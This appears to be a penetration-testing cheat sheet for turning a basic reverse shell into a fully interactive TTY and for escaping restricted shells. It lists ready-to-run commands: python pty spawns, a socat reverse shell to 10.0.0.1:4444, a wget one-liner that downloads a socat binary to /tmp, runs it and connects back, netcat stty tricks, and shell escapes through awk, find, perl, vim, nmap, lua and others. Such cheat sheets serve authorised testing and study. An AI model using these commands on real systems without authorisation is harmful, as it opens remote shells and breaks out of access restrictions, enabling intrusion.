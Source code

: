 ## ** Gaining TTY **


Check to see if we have a TTY:

 

    if [ -t 1 ] ; then echo terminal; else echo "not a terminal"; fi

Python
------

.. code-block:: none

    python -c 'import pty; pty.spawn("/bin/sh")'
    python -c 'import pty; pty.spawn("/bin/bash")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    script -qc /bin/bash /dev/null

    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
    export TERM=xterm-256color
    alias ll='ls -lsaht --color=auto'
    Ctrl + Z   [Background Process]
    stty raw -echo; fg; reset
    stty columns 200 rows 200

socat
-----

Run listener on local machine:

.. code-block:: none

    socat file:`tty`,raw,echo=0 tcp-listen:4444

Run on remote machine:

.. code-block:: none

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4444

If socat isn't installed, you can try and download a static binary and run that:

.. code-block:: none

    wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4444

netcat "magic"
--------------

 

    # In reverse shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    Ctrl-Z

    # In Kali
    echo $TERM # note this value
    stty -a # note values
    stty raw -echo; fg

    # In reverse shell
    reset
    export SHELL=bash
    export TERM=xterm-256color # value from before
    stty rows <num> columns <cols> # values from before

sh
--

.. code-block:: none

    /bin/sh -i

awk
---

.. code-block:: none

    awk 'BEGIN {system("/bin/bash")}'

find
----

.. code-block:: none

    find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;

Perl
----

.. code-block:: none

    perl -e 'exec "/bin/sh";'

    OR

    perl: exec "/bin/sh";

Ruby
----

.. code-block:: none

    ruby: exec "/bin/sh"

vi / vim
--------

.. code-block:: none

    vi --not-a-term -c '!sh'

.. code-block:: none

    vim --not-a-term --cmd '!sh' --cmd ':q!'

If --cmd is not enabled, first create a file with the following contents:

.. code-block:: none

    :set shell=/bin/bash
    :shell

Now execute the following:

.. code-block:: none

    vi -s <file>

    OR

    vim -s <file>

Lua
---

.. code-block:: none

    lua: os.execute('/bin/sh')

From within IRB
---------------

.. code-block:: none

    exec "/bin/sh"

From within vi / vim
--------------------

.. code-block:: none

    :!bash

    OR

    :set shell=/bin/bash:shell

From within nmap
----------------

.. code-block:: none

    !sh

echo
----

Note: This may be limited to LShell, a limited shell implemented in Python.

.. code-block:: none

    echo os.system('/bin/bash')

Resources
---------

https://netsec.ws/?p=337
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
